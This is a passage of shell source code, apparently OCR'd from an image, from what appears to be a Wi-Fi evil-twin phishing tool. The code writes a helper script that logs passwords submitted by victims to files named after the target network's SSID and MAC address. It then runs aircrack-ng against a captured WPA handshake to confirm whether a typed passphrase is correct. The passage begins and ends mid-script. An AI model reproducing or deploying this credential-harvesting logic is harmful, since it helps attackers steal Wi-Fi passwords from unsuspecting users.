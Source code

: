         minutos=0
        horas=0
        i=0
        timestamp=\$(date +%s)

        while true; do

        segundos=\$i
        dias=\`expr \$segundos / 86400\`
        segundos=\`expr \$segundos % 86400\`
        horas=\`expr \$segundos / 3600\`
        segundos=\`expr \$segundos % 3600\`
        minutos=\`expr \$segundos / 60\`
        segundos=\`expr \$segundos % 60\`

        if [ \"\$segundos\" -le 9 ]; then
        is=\"0\"
        else
        is=
        fi

        if [ \"\$minutos\" -le 9 ]; then
        im=\"0\"
        else
        im=
        fi

        if [ \"\$horas\" -le 9 ]; then
        ih=\"0\"
        else
        ih=
        fi">>$DUMP_PATH/handcheck

        if [ $authmode = "handshake" ]; then
                echo "if [ -f $DUMP_PATH/pwattempt.txt ]; then
                cat $DUMP_PATH/pwattempt.txt >> \"$PASSLOG_PATH/$Host_SSID-$Host_MAC.log\"
                rm -f $DUMP_PATH/pwattempt.txt
                fi

                if [ -f $DUMP_PATH/intento ]; then

                if ! aircrack-ng -w $DUMP_PATH/data.txt $DUMP_PATH/$Host_MAC-01.cap | grep -qi \"Passphrase not in\"; then
                echo \"2\">$DUMP_PATH/intento
                break
                else
                echo \"1\">$DUMP_PATH/intento
                fi

                fi">>$DUMP_PATH/handcheck

        elif [ $authmode = "wpa_supplicant" ]; then
                  echo "
                if [ -f $DUMP_PATH/pwattempt.txt ]; then
                cat $DUMP_PATH/pwattempt.txt >> $PASSLOG_PATH/$Host_SSID-$Host_MAC.log
                rm -f $DUMP_PATH/pwattempt.txt
                fi

